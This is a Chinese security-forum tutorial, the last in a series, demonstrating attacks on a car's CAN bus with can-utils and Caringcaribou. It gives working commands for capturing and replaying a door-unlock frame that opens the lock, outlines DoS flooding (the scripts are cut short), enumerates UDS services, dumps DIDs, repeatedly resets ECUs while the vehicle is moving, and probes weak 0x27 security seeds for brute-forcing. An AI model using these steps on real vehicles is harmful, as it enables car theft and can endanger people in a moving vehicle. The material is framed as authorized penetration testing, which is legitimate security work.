# 奇安信攻防社区-汽车CAN总线-03 测试方法演示

### 汽车CAN总线-03 测试方法演示

“ 免责声明：本文涉及到的所有技术仅用来学习交流，严禁用于非法用途，未经授权请勿非法渗透。否则产生的一切后果自行承担！一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！” 本专题文章将分为三部分： 介绍、攻击、演示，本文为终章汽车CAN总线测试方法演示 。

本演示希望起到一个梳理的作用，希望读者理解每一步的原理，多看标准，不要完全依赖工具。

常用CAN收发工具包括很多种，本篇以socket can搭配Caringcaribou为例展开介绍（socket can买免驱的，优点便宜、使用方便，Caringcaribou做can简直太好用，但也发现一个问题，缺少扩展帧的uds检测，二次开发中，把这个模块补上）



### **环境搭建：**

**1.canutils**

1.1 kali执行如下命令

apt install can-utils

1.2 执行`candump -h`回显如下证明安装成功



**2.Caringcaribou**

2.1 执行如下命令进行安装

# 下载Caringcaribou

git clone [https://github.com/CaringCaribou/caringcaribou.git](https://github.com/CaringCaribou/caringcaribou.git)

# 到文件目录执行安装程序

cd caringcaribou  
python3 setup.py install

\# 安装 python can 库  
pip3 install python-can

### **演示**

### **重放攻击**

1.1 candump监听Can总线数据 （此处是破线接入车辆can网络）

`candump can0 -l`

1.2 按动车钥匙中的开锁按钮


1.3 停止抓包并对抓到的数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 利用Caringcaribou工具进行重放攻击

`cc.py fuzzer identify res.txt`

1.5 根据汽车是否出现对应反应选择y/n, 获取开关车门数据包



1.6 对开关车门数据包进行重放

`cansend can0 100#3d157d40d9000560`

观察到车锁成功被开启


再重放一次数据包,发现车锁成功关闭


### **DoS攻击**

### **（1）过载Dos攻击**

此处使用CANoe实现过载DOS攻击

代码如下

```php
variables
```

**（2）优先级Dos攻击**

编写shell脚本向can总线发送10000条垃圾数据

`vim dos.sh`

写入如下内容

```php
#!/bin/bash
```

运行该shell脚本

chmod +x dos.sh  
./dos.sh

### **UDS探测**

通过OBD接口连接车辆Can总线,对Can总线进行抓包尝试



`candump can0`


未获取到数据,说明网关对Can总线和OBD接口进行了隔离,无法直接抓到Can报文

向Can总线发送UDS诊断请求,回显正常,说明Can总线工作正常

**方法一：**

**UDS服务扫描**

`cc.py uds discovery`



**探测支持的服务ID**

`cc.py uds services src ds`

`cc.py uds services 0x607 0x608`

进行服务探测,发现0x27,0x29服务均存在



尝试进行重置ECU,读取任意did等操作,发现并没有鉴权

`cc.py uds dump_dids 0x607 0x608`



切换至扩展会话模式

`cansend can0 607#0210030000000000`

在车辆行驶的过程中向车辆发送

**发送重置ecu请求，** 多次发送可以发现Ecu无限制重置

`cc.py uds ecu_reset 2 clientid serverid`



**27服务安全性**

切换至编程模式

`cansend can0 607#0210020000000000`

多次请求安全种子，观察种子强度和重复

`cansend can0 607#0227010000000000`

**方法二：**

使用caringcaribou工具auto模块

自动化探测uds主要攻击面（但不适用扩展帧的uds检测，二次开发中）

```php
cc.py uds auto
```

**\*\*27服务安全性**  
\*\*

探测27服务种子强度和重复问题

```php
cc.py uds_fuzz seed_randomness_fuzzer 100311022701 0x733 0x633
```

种子重复且种子为8位，但前5位一致，有效位只为3位，可爆破种子，



## **模糊测试**

1.1 candump监听Can总线

`candump can0 -l`

1.2 使用Caringcaribou向Can总线发送随机消息

`cc.py fuzzer random`



1.3 随时观察车辆是否发生异常现象,若发生,则停止candump监听,对数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 使用Caringcaribou进行重放以确认引起问题的数据包

`cc.py fuzzer identify res.txt`



产品预告

基于caringcaribou二次开发

适用扩展帧的uds检测


